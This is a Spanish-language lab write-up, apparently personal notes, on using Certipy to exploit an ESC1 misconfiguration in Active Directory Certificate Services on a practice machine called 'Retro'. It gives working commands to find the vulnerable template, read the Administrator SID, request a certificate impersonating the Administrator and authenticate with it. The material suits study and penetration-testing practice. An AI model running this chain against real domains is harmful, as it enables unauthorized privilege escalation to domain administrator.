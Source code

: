 #certipy 

----
[Link](https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation)
Es una herramienta de **auditoría y explotación de servicios de Active Directory Certificate Services (AD CS)**.  
AD CS es la infraestructura de certificados de Microsoft: permite emitir certificados digitales para autenticación, cifrado, firmas, etc.  
Cuando está mal configurada, puede abrir la puerta a ataques que permitan escalar privilegios dentro de un dominio.

-----
# Instalacion y ubicacion

```
pip install certipy-ad
pip3 install certipy-ad
```


```
find / -name certipy 2>/dev/null
```

Como vemos lo tenemos en la ruta */home/bunzo/.local/bin/certipy* asi que lo vamos a ejecutar con `python3 /home/bunzo/.local/bin/certipy`
![[Retro21.png]]

---

# Uso con ESC1


Vamos a usar este [articulo](https://www-hackingarticles-in.translate.goog/a-detailed-guide-on-certipy/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es) para usar el [[certipy]] y escalar prilegios


```
python3 /home/bunzo/.local/bin/certipy find -username 'BANKING$'@retro.vl -password 'exploit' -dc-ip 10.129.234.44 -vulnerable -enable -stdout
```
*Parametros:* 
	`find` Es para buscar 
	`-username` Usuario
	`-password` Contraseña
	`-dc-ip` Es la ip victima
	`-vulnerable` Indica que queremos detectar los templates con configuraciones inseguras
	`-enable` Si la CA está deshabilitada, pide que se habilite la inscripción (requiere que la cuenta tenga permisos suficientes).
	`-stdout` Muestra toda la informacion directamente en la salida edl comando

![[Retro22.png]]
![[Retro23.png]]
Nos da el template que se llama *RetroClients* y el CA que es *retro-DC-CA*. Y nos indica que hay una vulnerabilidad *ESC1*

Con este comando estamos intentando leer la ifnormacion de la cuienta Administrator utilizando las credenciales del usuario BANKING$

```
python3 /home/bunzo/.local/bin/certipy account -u 'BANKING$' -p exploit -dc-ip 10.129.234.44 -target 10.129.234.44 -user Administrator read
```
*Parametros:*
	`account` Indica que se va a trabajar con **cuentas de Active Directory** (crear, leer, modificar, eliminar atributos, etc.).
	`-user Administrator` Especifica que querés actuar sobre la cuenta Administrator.
	`read`Acción: leer atributos de esa cuenta (por ejemplo, descripción, SID, grupos, SPNs, etc.).
![[Retro24.png]]
Nos da el objectSid que lo vamos a usar a posteriori


Ahora con todos los datos que ya recopilamos vamos a hacer la solicitud para descargar el certificado

```
python3 /home/bunzo/.local/bin/certipy req -u 'BANKING$' -p exploit -dc-ip 10.129.234.44 -target 10.129.234.44 -ca retro-DC-CA -template 'RetroClients' -upn 'administrator@retro.vl' -sid 'S-1-5-21-2983547755-698260136-4283918172-500' -key-size 4096 -debug
```
*Parametros:*
	`req` Solicita un certificado a la CA
	`-ca ` Nombre de la Certificate Authority en el dominio.
	`-template` Plantilla de certificado que se va a usar; en laboratorios suele ser mal configurada para permitir enrollment de cualquier usuario.
	`-upn` Usuario objetivo que queremos impersonar con el certificado
	`-sid` SID del usuario objetivo, para que el certificado tenga la identidad correcta.
	`-key-size 4096` Si no poniamos este valor, nos daba un error por el tamaño de la key
	`-debug` Muestra información detallada de la operación para diagnóstico.

![[Retro28.png]]

Ahora nos vamos a utentificar en el dominio usando el certificado enves ed una contraseña tradicional
```
python3 /home/bunzo/.local/bin/certipy auth -pfx administrator.pfx -dc-ip 10.129.234.44
```
*Parametros:*
	`auth` Indica que se va a utentificar con un certificado
	`-pfx administrator.pfx` Es para indicar el archivo que contiene el certificado

![[Retro29.png]]

